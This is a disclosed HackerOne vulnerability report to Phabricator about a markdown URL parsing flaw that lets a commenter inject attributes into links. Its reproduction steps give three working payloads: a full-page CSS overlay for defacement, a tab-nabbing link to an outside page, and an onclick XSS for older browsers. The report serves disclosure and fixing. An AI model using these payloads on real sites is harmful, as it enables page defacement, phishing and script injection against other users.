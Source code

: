 # Markdown parsing issue enables insertion of malicious tags

## Report Details
- **Report ID**: 758002
- **URL**: https://hackerone.com/reports/758002
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-12-13T18:10:00.899Z
- **Disclosed**: 2019-12-13T18:51:31.174Z

## Reporter
- **Username**: sectex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
> mongoose

By exploiting the URL markdown an attacker is able to add tags to an anchor-element.
This is less impactfull since the default csp policy blocks inline javascript execution,
but an attacker could deface individual pages, bypass the `rel="norefferrer"` tag to 
perform tab nabbing or perform XSS on browsers which don't support 
the `Content-Security-Policy`-Header (e.g. `IE 11`, `Safari 5.1.7 (Windows)`).
To exploit this vulnerability it requires an account but no other special access.

Steps To Reproduce:
---------------------
### Deface:
  * Go to any Task, Commit or similar.
  * Add a new comment:
    ```
    [ ](https://a.de?p=[[/data-x=. style=background-color:#000000;z-index:999;width:100%;position:fixed;top:0;left:0;right:0;bottom:0; data-y=.]])
    ```

### Tab nabbing:
  * Go to any Task, Commit or similar.
  * Add a new comment:
    ```
    [ ](https://sectex.dev/files/tabnabbing.html?[[/target=_blank `.`]])
    ```
  * When a user clicks the link, a new window is opened and parent window location will be changed.

### XSS (IE 11, Safari 5.1.7 (Windows)):
  * Go to any Task, Commit or similar.
  * Add a new comment:
    ```
    [ ](http://a?p=[[/onclick=alert(0) .]])
    ```
  * Click the link.

## Impact

* An attacker can perform tab nabbing, deface individual pages or perform xss.

## Attachments
No attachments
